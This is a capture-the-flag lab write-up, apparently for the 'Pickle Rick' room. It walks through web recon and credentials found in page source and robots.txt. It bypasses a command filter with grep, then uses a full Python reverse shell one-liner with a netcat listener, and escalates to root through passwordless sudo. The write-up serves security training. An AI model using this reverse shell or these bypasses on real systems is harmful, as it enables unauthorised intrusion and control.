**Target IP :** 10.10.174.115

**My IP :** 10.23.53.161

# Reconnaissance

## Nmap Scan

Executed a service and port scan using nmap. Results saved in [initial.txt.](nmap/initial.txt)

```bash
nmap -T4 -A -o initial.txt 10.10.174.115
```


# Enumeration

## Directory Brute Force

Used gobuster to enumerate hidden files and directories. Results saved in [gobuster.txt.](gobuster/gobuster.txt)

```bash
gobuster dir -u http://10.10.174.115 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt -o gobuster.txt -t 50
```

## Inspecting index.html

Discovered a username **R1ckRul3s** hidden in the HTML source.



## Checking robots.txt

Found a potential password or password hint.



Used the discovered username/password on /login.php.




# Accessing the Web Portal

Successfully logged in at /login.php.

Found a command execution panel.



## Limited Shell Execution

Only basic commands allowed (**cat** or **echo** denied).

Executed ls to list files.



Used this command to read the contents of the files.

```bash
grep . <filename>
```

## First Ingredient

The file **Sup3rS3cretPickl3Ingred.txt** contained the first key.


## Clue file

I found a clue in the file that tells me to search in other directories, which is obvious.


# Rabbit Hole Distraction

In portal.php, found a suspicious Base64 string:



```bash
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
```


After multiple rounds of decoding, the result was: **rabbit hole**

Confirmed it’s a decoy, not an actual path to escalation.


# Reverse Shell Access

Gained shell access using a **Python reverse shell payload:**

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.23.53.161",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Netcat listener on attack box: 

```bash
nc -lvnp 1234
```

Successful reverse shell access confirmed.



# Home Directory Loot

Navigated to the user's home directory **/home/rick/** and found the second ingredient.




# Privilege Escalation

## Sudo Enumeration:

When checking my privileges with the command **sudo -l**, the result shows that i can execute any root command without any password.



## Escalated to Root:

Immediate root shell access granted with the command :

```bash
sudo bash
```



The 3rd and final ingredient is :



